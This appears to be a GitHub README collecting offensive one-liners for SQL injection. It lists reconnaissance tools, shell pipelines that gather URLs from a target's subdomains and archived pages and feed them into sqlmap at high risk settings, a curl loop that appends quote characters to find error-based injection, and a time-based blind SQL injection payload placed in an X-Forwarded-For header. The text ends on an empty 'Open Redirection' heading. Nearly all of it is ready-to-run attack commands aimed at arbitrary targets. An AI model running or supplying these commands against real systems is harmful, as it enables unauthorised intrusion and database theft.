 # One-Liner-Collections
This Repositories contains list of One Liners with Descriptions and Installation requirements

────────────────────────────────────────────────────────────────────────



# SQL Injection

## Installation Requirements
1. Subfinder   : https://github.com/projectdiscovery/subfinder 
2. GAU         : https://github.com/lc/gau
3. GF          : https://github.com/tomnomnom/gf
4. Findomain   : https://github.com/Findomain/Findomain
5. HTTPX       : https://github.com/projectdiscovery/httpx
6. Anew        : https://github.com/tomnomnom/anew
7. Waybackurls : https://github.com/tomnomnom/waybackurls
8. SQLiDetector: https://github.com/eslam3kl/SQLiDetector

## OneLiner
```
echo http://testphp.vulnweb.com | waybackurls > wayback_urls_for_target.txt ; python3 sqlidetector.py -f  wayback_urls_for_target.txt

```
```
subfinder -d http://TARGET.com -silent -all | gau - blacklist ttf,woff,svg,png | sort -u | gf sqli >gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli_report.txt
```

```
findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

```
cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Cybertix\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done

```

### Header-Based Blind SQL injection

```
cat domain.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13'
```
────────────────────────────────────────────────────────────────────────



# Open Redirection
